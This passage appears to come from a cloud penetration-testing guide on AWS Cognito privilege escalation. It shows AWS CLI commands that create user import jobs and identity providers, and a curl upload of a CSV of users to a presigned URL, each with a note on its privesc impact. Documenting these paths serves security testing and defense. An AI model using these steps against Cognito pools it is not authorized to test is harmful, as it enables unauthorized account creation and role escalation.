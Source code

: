 **Potential Impact:** Potential indirect privesc to the Identity Pool authorized user used by the User Pool by creating a new client that relax the security measures and makes possible to an attacker to login with a user he was able to create.

### `cognito-idp:CreateUserImportJob` | `cognito-idp:StartUserImportJob`

An attacker could abuse this permission to create users y uploading a csv with new users.

```bash
# Create a new import job
aws cognito-idp create-user-import-job \
    --job-name <value> \
    --user-pool-id <value> \
    --cloud-watch-logs-role-arn <value>

# Use a new import job
aws cognito-idp start-user-import-job \
    --user-pool-id <value> \
    --job-id <value>

# Both options before will give you a URL where you can send the CVS file with the users to create
curl -v -T "PATH_TO_CSV_FILE" \
    -H "x-amz-server-side-encryption:aws:kms" "PRE_SIGNED_URL"
```

(In the case where you create a new import job you might also need the iam passrole permission, I haven't tested it yet).

**Potential Impact:** Direct privesc to the identity pool IAM role for authenticated users. Indirect privesc to other app functionalities being able to create any user.

### `cognito-idp:CreateIdentityProvider` | `cognito-idp:UpdateIdentityProvider`

An attacker could create a new identity provider to then be able to **login through this provider**.

```bash
aws cognito-idp create-identity-provider \
    --user-pool-id <value> \
    --provider-name <value> \
    --provider-type <value> \
    --provider-details <value> \
    [--attribute-mapping <value>] \
    [--idp-identifiers <value>]
```

**Potential Impact:** Direct privesc to the identity pool IAM role for authenticated users. Indirect privesc to other app functionalities being able to create any user.

### cognito-sync:\* Analysis

This is a very common permission by default in roles of Cognito Identity Pools. Even if a wildcard in a permissions always looks bad (specially coming from AWS), the **given permissions aren't super useful from an attackers perspective**.
